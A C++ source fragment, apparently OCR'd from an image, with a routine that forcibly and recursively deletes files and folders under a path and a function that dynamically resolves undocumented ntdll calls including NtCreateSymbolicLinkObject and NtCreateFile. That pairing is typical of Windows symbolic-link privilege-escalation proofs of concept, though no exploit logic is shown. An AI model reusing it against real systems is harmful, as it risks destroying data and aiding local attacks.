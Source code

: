 ```cpp

	hSrch = FindFirstFile(DelPath, &wfd);
	if (hSrch == INVALID_HANDLE_VALUE) {
		if (recur > 0) RemoveDirectory(TempPath);
		return -1;
	}

	while (res) {
		wsprintf(FullPath, L"%s\\%s", TempPath, wfd.cFileName);

		if (wfd.dwFileAttributes & FILE_ATTRIBUTE_READONLY) {
			SetFileAttributes(FullPath, FILE_ATTRIBUTE_NORMAL);
		}

		if (wfd.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
			if (lstrcmp(wfd.cFileName, L".")
				&& lstrcmp(wfd.cFileName, L"..")) {
				recur++;
				DeleteAllFiles(FullPath, recur);
				recur--;
			}
		}
		else {
			DeleteFile(FullPath);
		}

		res = FindNextFile(hSrch, &wfd);
	}

	FindClose(hSrch);

	if (recur > 0) RemoveDirectory(TempPath);

	return 0;
}

void NtInit() {
	LoadLibrary(L"ntdll.dll");
	HMODULE hm = GetModuleHandle(L"ntdll.dll");
	_RtlInitUnicodeString = (ULONG(WINAPI*)(PUNICODE_STRING, PCWSTR))GetProcAddress(hm, "RtlInitUnicodeString");
	_RtlNtStatusToDosError = (ULONG(WINAPI*) (NTSTATUS Status))GetProcAddress(hm, "RtlNtStatusToDosError");
	_NtCreateSymbolicLinkObject = (NTSTATUS(WINAPI*)(
		OUT PHANDLE             pHandle,
		IN ACCESS_MASK          DesiredAccess,
		IN POBJECT_ATTRIBUTES   ObjectAttributes,
		IN PUNICODE_STRING      DestinationName))GetProcAddress(hm, "NtCreateSymbolicLinkObject");
	_NtCreateFile = (NTSTATUS(WINAPI*)(
		PHANDLE            FileHandle,
		ACCESS_MASK        DesiredAccess,
		POBJECT_ATTRIBUTES ObjectAttributes,
		PIO_STATUS_BLOCK   IoStatusBlock,
		PLARGE_INTEGER     AllocationSize,
		ULONG              FileAttributes,
		ULONG              ShareAccess,
		ULONG              CreateDisposition,
		ULONG              CreateOptions,
		PVOID              EaBuffer,
		ULONG              EaLength))GetProcAddress(hm, "NtCreateFile");
	_NtClose = (NTSTATUS(WINAPI*)(HANDLE Handle))GetProcAddress(hm, "NtClose");
}

```
